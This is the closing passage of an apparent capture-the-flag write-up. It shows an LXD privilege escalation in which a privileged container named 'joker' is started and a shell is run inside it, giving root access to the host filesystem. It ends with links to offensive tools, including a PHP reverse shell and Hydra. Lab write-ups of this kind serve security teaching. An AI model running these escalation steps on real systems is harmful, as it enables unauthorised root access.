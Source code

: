 All that's left to do is to start the container with `lxc start joker` and then use `lxc exec joker /bin/sh` to execute `/bin/sh` within the container, thus giving ourselves a shell within that container. Since the container's `security.privileged` flag is set to `true`, we are granted a root shell within the container, a container which now has access to every single file in the system. 
<br/>

```
www-data@ubuntu:/dev/shm$ lxc start joker
www-data@ubuntu:/dev/shm$ lxc exec joker /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # 
```
<br/>
<br/>

# Tools Mentioned 
<br/>
 : [dirsearch](https://github.com/maurosoria/dirsearch)
 : [gobuster](https://github.com/OJ/gobuster)
 : [Hydra](https://github.com/vanhauser-thc/thc-hydra)
 : [JohnTheRipper](https://github.com/openwall/john)
 : [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
 : [linux-php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
 : [lxd-alpine-builder](https://github.com/saghul/lxd-alpine-builder)
 : [updog](https://github.com/sc0tfree/updog)
 : [RustScan](https://github.com/RustScan/RustScan)
 : [nmap](https://github.com/nmap/nmap)

